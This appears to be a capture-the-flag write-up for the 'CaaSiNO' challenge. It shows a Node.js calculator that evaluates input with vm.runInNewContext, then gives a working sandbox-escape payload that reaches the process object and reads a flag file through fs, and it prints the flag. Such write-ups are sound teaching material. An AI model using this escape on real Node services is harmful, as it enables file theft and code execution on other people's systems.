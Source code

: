 # CaaSiNO (305 solves)

Source: [calculator.js](./calculator.js)

```js
rl.prompt();
rl.addListener("line", (input) => {
	if (input === "q") {
		process.exit(0);
	} else {
		try {
			const result = vm.runInNewContext(input);
			process.stdout.write(result + "\n");
		} catch {
			process.stdout.write("An error occurred.\n");
		}
		rl.prompt();
	}
});
```

Looking at the source, it appears to take your input and run it using `vm.runInNewContext`. Googling for `nodejs vm escape`, we find [this site](https://pwnisher.gitlab.io/nodejs/sandbox/2019/02/21/sandboxing-nodejs-is-hard.html).

We can access the process object via `this.constructor.constructor('return this.process')()`. Based on this, reading the flag is easily accomplished through the `fs` module.

Final Exploit:

```js
this.constructor.constructor("return this.process")().mainModule.require("fs").readFileSync("/ctf/flag.txt").toString();
```

Flag: `flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD}`
